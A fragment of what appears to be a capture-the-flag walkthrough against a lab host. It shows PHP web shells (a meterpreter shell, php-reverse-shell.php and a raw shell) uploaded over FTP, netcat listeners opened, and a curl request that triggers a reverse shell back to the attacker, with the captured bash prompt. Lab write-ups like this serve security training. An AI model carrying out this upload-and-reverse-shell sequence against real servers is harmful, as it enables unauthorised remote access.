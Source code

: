 ```bash

 4 -rw-r--r-- 1 root root  1112 Sep 13 10:17 meterpreter_shell.ph
 8 -rw-r--r-- 1 root root  5493 Sep 13 10:21 php-reverse-shell.php
 4 -rw-r--r-- 1 root root    75 Sep 13 10:22 raw-php-shell.php

```

```bash
ftp> put meterpreter_shell.php 
local: meterpreter_shell.php remote: meterpreter_shell.php
229 Entering Extended Passive Mode (|||12555|)
150 Ok to send data.
100% |*****************************************************************************************************|  1112       24.66 MiB/s    00:00 ETA
226 Transfer complete.
1112 bytes sent in 00:00 (1.58 KiB/s)
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||8364|)
150 Ok to send data.
100% |*****************************************************************************************************|  5493       56.94 MiB/s    00:00 ETA
226 Transfer complete.
5493 bytes sent in 00:00 (7.38 KiB/s)
ftp> put raw-php-shell.php 
local: raw-php-shell.php remote: raw-php-shell.php
229 Entering Extended Passive Mode (|||36063|)
150 Ok to send data.
100% |*****************************************************************************************************|    75        2.30 MiB/s    00:00 ETA
226 Transfer complete.
75 bytes sent in 00:00 (0.09 KiB/s)
ftp> 

```

`nc -nlvp 21212`

```bash
listening on [any] 21212 ...
```

`curl -iLX GET http://overpasshosting.thm/raw-php-shell.php`

```bash
listening on [any] 21212 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.125.204] 36948
bash: cannot set terminal process group (895): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ 
```

`nc -nlvp 12341`

```bash
listening on [any] 12341 ...
```
